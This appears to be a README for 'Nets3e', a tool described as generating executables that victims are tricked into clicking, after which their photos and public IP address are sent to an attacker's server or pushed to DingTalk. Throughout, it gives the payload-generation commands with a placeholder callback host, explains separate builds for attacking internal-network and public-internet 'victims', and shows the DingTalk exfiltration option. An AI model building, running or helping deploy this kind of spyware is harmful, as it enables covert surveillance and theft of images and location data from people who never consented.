

  <div align="center">
<p align="center">
 
 
  
 
 
 </p>
  
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Fixed the issue where the victim was unable to access the public IP address[NEW]</th>
    <th>Share data with DingTalk [NEW]</th>

</tr>
 
 </table>
</div>


  
## Nets3e Example

``pip install -i https://pypi.tuna.tsinghua.edu.cn/simple pycryptodome,Pillow``

``#python3 Nets3e.py -h``

 


```ps:Use '- g' to generate PAYLOAD, but you don't need to specify '- g'```

``#python3 Nets3e.py -rh http://xxxx.com:11111 -g``


 

``Follow the prompts in/ Generate two exe executable files from the dist directory``

 

_Nets3eClient_debug.exe -> The debug version of internal network attacks is mainly used to test whether internal network victims can reach the local machine_

_Nets3eClient_release.exe -> The release version of public network attacks is mainly used to attack public network users_

## Public network attack

``Victims click on Nets3eClient_release.exe``


 

``Attack Kill Chain``

 

## Internal network attack

``Victims click on Nets3eClient_debug.exe``

``PS:Affected hosts on the internal network will first obtain their own public IP address and then send photos to the internal network host. In fact, the traffic is not forwarded by the server``


 

``Attack Kill Chain``

 


# Configure the API for victims to obtain public IP addresses, and configure nail push TOKEN and keys

 


## Push using (- dd) after configuration

``#python3 Nets3e.py -dd ``

 

```Victims click on the app```


 

 